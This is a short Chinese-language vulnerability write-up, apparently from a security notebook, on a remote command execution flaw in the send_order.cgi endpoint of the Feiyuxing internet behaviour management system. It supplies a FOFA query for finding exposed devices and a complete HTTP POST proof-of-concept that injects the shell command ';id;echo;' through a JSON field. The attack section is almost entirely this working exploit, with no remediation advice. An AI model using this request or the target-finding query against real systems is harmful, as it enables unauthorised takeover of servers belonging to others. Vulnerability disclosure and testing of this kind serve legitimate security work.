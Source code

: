 # 飞鱼星智能上网行为管理系统send_order存在远程命令执行漏洞

# 一、漏洞详情
飞鱼星智能上网行为管理系统send_order存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 飞鱼星智能上网行为管理系统

# 三、资产测绘
+ fofa`<font style="color:rgb(51, 51, 51);">title="飞鱼星企业级智能上网行为管理系统"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7.png](./img/SzODbDuHutGaSVyR/1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7-151278.png)

# 四、漏洞复现
```plain
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

{"opid":"777777777777777777","name":";id;echo;","type":"rest"}
```

![1710904029519-91bc1ada-e0fd-41c8-842a-20a097fc13ab.png](./img/SzODbDuHutGaSVyR/1710904029519-91bc1ada-e0fd-41c8-842a-20a097fc13ab-193394.png)



> 更新: 2024-09-03 14:56:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ewvgyd0pqty4snsb>